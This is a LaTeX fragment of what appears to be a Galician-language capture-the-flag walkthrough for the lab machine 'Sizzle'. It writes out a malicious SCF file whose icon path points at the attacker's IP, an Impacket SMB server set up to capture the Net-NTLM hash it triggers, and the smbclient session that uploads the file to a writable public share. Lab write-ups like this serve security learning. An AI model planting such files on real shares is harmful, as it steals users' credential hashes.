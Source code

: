 \documentclass[a4paper]{article}
\newcommand{\ipLocal}{10.10.14.12}
\begin{document}
Así, calquera con permiso de escritura nun recurso compartido: \textbf{exploit scf file}

\clearpage
        \section{Explotación de vulnerabilidades}
        \vspace{0.2cm}
        \subsection{Acceso ao sistema}
        \vspace{0.2cm}


        \begin{lstlisting}[language=Bash, caption=Exploit scf file, linewidth=18.7cm]
$ cat file.scf
[Shell]
Command=2
IconFile=\\¬\ipLocal¬\TMP\pentestlab.ico
[Taskbar]
Command=ToggleDesktop

$ smbserver.py -smb2support TMP Sizzle/exploits
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=Net-NTLM hash]
        $ smbclient -U'guest' //10.10.10.103/"Department Shares"
Enter WORKGROUP\guest's password:
Try "help" to get a list of possible commands.
smb: \> cd users
smb: \users\> cd public
smb: \users\public\> help
?              allinfo        altname        archive        backup
blocksize      cancel         case_sensitive cd             chmod
chown          close          del            deltree        dir
du             echo           exit           get            getfacl
geteas         hardlink       help           history        iosize
lcd            link           lock           lowercase      ls
l              mask           md             mget           mkdir
more           mput           newer          notify         open
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir
posix_unlink   posix_whoami   print          prompt         put
pwd            q              queue          quit           readlink
rd             recurse        reget          rename         reput
rm             rmdir          showacls       setea          setmode
scopy          stat           symlink        tar            tarmode
timeout        translate      unlock         volume         vuid
wdel           logon          listconnect    showconnect    tcon
tdis           tid            utimes         logoff         ..
!
smb: \users\public\> put Sizzle/exploits/file.scf file.scf
putting file Sizzle/exploits/file.scf as \users\public\file.scf (0,2 kb/s) (average 0,2 kb/s)
smb: \users\public\> quit\end{lstlisting}
\end{document}
